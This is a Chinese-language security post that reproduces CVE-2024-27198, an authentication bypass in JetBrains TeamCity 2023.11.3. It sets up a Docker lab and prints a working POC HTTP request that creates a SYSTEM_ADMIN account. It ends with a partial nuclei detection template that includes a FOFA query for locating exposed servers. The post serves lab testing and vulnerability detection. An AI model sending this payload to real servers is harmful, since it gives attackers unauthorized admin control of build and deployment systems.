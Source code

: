 ![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPqSkOtUwBvkdlzk5P2IPTpvPE6O384mqV07DcqHia58jwjS84hMUqLdYib0iaiaozjHqL9xwjCErbcxw/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
靶场搭建  
  
  
docker安装  
  
拉取镜像  
```
docker pull jetbrains/teamcity-server:2023.11.3
```  
  
启动容器  
```
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```  
  
然后访问  
http://localhost:8111  
  
  
06  
  
—  
  
漏洞复现  
  
  
POC数据包如下  
```
POST /pwned?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 192.168.40.130:8111
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Accept-Encoding: gzip, deflate
 
{"username": "用户名", "password": "密码", "email": "test@mydomain.com", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```  
  
执行poc会创建管理员账户，请在靶场操作。  
  
  
  
  
07  
  
—  
  
批量扫描poc  
  
  
如果直接使用上面的数据包，实际上已经是一种入侵行为，尝试通过判断版本号来扫描漏洞。各位看官有更好的办法记得私信我。  
  
nuclei poc文件内容如下  
```
id: CVE-2024-27198

info:
  name: TeamCity 2023.11.3 及以下版本存在身份验证绕过漏洞
  author: fgz
  severity: critical
  description: JetBrains TeamCity是一款由JetBrains开发的持续集成和持续交付(CI/CD)服务器。它提供了一个功能强大的平台，用于自动化构建、测试和部署软件项目。TeamCity旨在简化团队协作和软件交付流程，提高开发团队的效率和产品质量。JetBrains TeamCity在2023.11.4版本之前存在认证绕过漏洞，允许执行管理员操作。攻击者可以利用该漏洞绕过认证机制，直接执行管理员操作，可能导致系统受到未授权访问和恶意操作的威胁。
  metadata:
    max-request: 1
    fofa-query: body="Log in to TeamCity"
    verified: true
```